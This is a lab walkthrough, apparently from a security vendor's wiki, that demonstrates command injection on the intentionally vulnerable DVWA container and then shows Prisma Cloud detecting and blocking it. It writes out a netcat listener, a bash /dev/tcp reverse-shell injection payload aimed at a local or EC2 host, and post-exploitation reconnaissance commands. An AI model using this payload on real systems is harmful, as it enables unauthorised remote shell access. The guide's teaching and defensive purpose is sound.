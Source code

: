 ## Command Injection Demo with DVWA App

NOTE: Please do not attempt on the demo enviornment of this wiki. I've provided instructions on how to set-up this lab so attempts will not be made. Thank you. 

Requirements:
* Prisma Cloud Compute edition deployed; see Deployment Guide here: [Minikube Prisma Cloud Compute Partner VM Lab Deployment Instructions](Prisma_Cloud_Compute_Minikube_Lab.md)
* Container defender deployed in environment where you'll be runnning the DVWA app. 
* [Docker Installed](https://www.digitalocean.com/community/tutorials/how-to-install-and-use-docker-on-ubuntu-20-04)
* Netcat installed (comes with ubuntu and many other linux distros) for macOS `brew install netcat`

### Intital Set-up

* Retrieve the DVWA webapp `docker pull vulnerables/web-dvwa`
* Tag the image you pull down `docker tag vulnerables/web-dvwa:latest dvwa:1`
* Create bridged docker network `docker network create --driver bridge dvwa-net`
* Run the container and map port 80 on the host machine to port 80 on the container. `docker run -dit -p 80:80 --name dvwa --network dvwa-net dvwa:1`
* Explain as you're running this in terminal that the important part of this command to understand is that `-p 80:80` maps the host machines port to the container port. This is important to highlight during your demonstration, because people often misunderstand how networking within a container works. We'll demonstrate how we can reverse shell into the container using a different port, from anywhere. 
* Open up a web browser and go to the dvwa app. `http://localhost/setup.php`
* reset the database then login in. username: `admin` password: `password`

### Run the exploit

* On the left hand side of the DVWA menu go to the command injection tab. 
* Explain what command injection is in this scenario. Ultimately, command injection is an attack where a malicious actor attempts to manipulate the user input so that code is executed on the shell of the container/server in a different way than the developer intended. 
* In the DVWA app, under the command injection section the developer's intention is for function to run a ping command 4 times on the ip address submitted by the user. 

### (Option 1) Locally from vm to laptop terminal ---easiest/recommended way

* To run the attack, open a terminal window on your local (not the VM) machine. Explain this is the attackers terminal. In terminal enter (linux devices) `nc -lvp 5678` (macOS) `netcat -lvp 5678`. This will open a listening port on port 5678. Nothing too exiting to see yet. 
* Then retrieve the Internal IP address of the local machine.
* Go back to the DVWA app and enter this command on the command injection screen. `127.0.0.1 & bash -c 'bash -i >& /dev/tcp/<YOUR_INTERNAL_IP_ADDRESS>/5678 0>&1'`
* Check the terminal window where you entered `nc -lvp 5678` you should now have a reverse shell into the container. 

### (Option 2) Externally from vm to External EC2 Instance

* Create a ubuntu EC2 instance and assign it a public IP address. 
* On the EC2 dashboard page in the AWS Console write down the public IP address assigned to the instance.
* Edit the security group to allow inbound tcp communication over port 5678.
* SSH to EC2 
* `sudo nano /etc/hosts` add `0.0.0.0 localhost` to the top line of the hosts file. `ctl + x` then `y` then `enter`
* In terminal type `nc -l -p 5678`
* Go back to the DVWA app and enter this command on the command injection screen. `127.0.0.1 & bash -c 'bash -i >& /dev/tcp/<YOUR_EC2_PUBLIC_IP_ADDRESS>/5678 0>&1'`
* Check the terminal window where you entered `nc -l -p 5678` you should now have a reverse shell into the container. 

### Show the implications of an attack like this

* Now you can demonstrate to your audience the difference between a vm and a container. 
* Because a container shares the same kernel as the host device it's running on an attacker can gain information which can used to gain further access into the network. 
* Run the command `whoami` to show that you're running as `www-app`. 
* `cd` through the web app and `ls` as you step through the directories to show the ability to perform directory traversal and see all the content of the web app. 
* Once you're at the root directory, run the following commands to reveal what information is being fed to the shared kernel. 
* `uname -a` provides the processor architecture, the system hostname and the version of the kernel running on the host machine. If you're able to determine that it's an vulnerable/unpatched kernel this information can be used to gain further access and information. 
* `cat /proc/cmdline` shows the kernel parameters passed during boot
* `cat /proc/cpuinfo` shows the type of processor the host machine is running, including the amount of CPUs present
* `cat /proc/version` provides information which pertains to the version of Linux kernel used in the host machine machines distro. 
* Link to linux kernel vulnerabilities from the CVE database [here](https://www.cvedetails.com/vulnerability-list/vendor_id-33/product_id-47/cvssscoremin-7/cvssscoremax-7.99/Linux-Linux-Kernel.html)

### See how Prisma Cloud Defenders responded to the incident. 

* Log into the Prisma Cloud Compute console
* Go to Monitor > Events > container audits
* There should be an incident reported as a reverse shell. 
* Click the event and then click forensic icon on the incident. 
* Show how the incident is tracked in near real time. 
* Scroll through the event details and show the commands you ran earlier with your reverse shell. 
* Point out that the IP Address of attacker was logged. This information could be very useful for incident response using Prisma Cloud Enterprise edition. (RQL Network from.....)


### Enable the WAAS to block this behavior

In the Prisma Compute Console:

* Step 1a:(Enterprise Edition ONLY) Go to Prisma Console > Compute > Defend > WAAS
* Step 1b:(Compute Edition) Go to Defend > WAAS
* Step 2: Click ‘Add Rule’
* Step 3: Rule Name: Command Injection Defense
* Step 4: Then click scope
* Step 5a: Check boxes of all images that have dvwa in them.
* Step 5b: If there are none, click 'Add Collection', type in a name, type in 'dvwa' in the image field, select the image(s), and click 'Save'
* Step 5c: Ensure you have the 'dvwa' boxes checked and click 'Select collections'
* Step 6: Click ‘Add New App’
* Step 7: On the next pop-up click the ‘+ Add Endpoint’ 
* Step 8: Enter 80 for App port (internal port) then hit ‘Create’ 
* Step 9: Click the ‘App Firewall' tab and under OS Command Injection set it to Prevent. 
* Step 10: Click ‘Save’


### Attempt attack again. 

* Log out of the dvwa app and close your reverse shell session by typing `exit` in the "attackers" shell. 
* Attempt to do the attack again on the web app and you should see a blocked warning. Note that the IP address of the attacker is logged. 
* The event can be viewed under Monitor > Events > WAAS for containers.
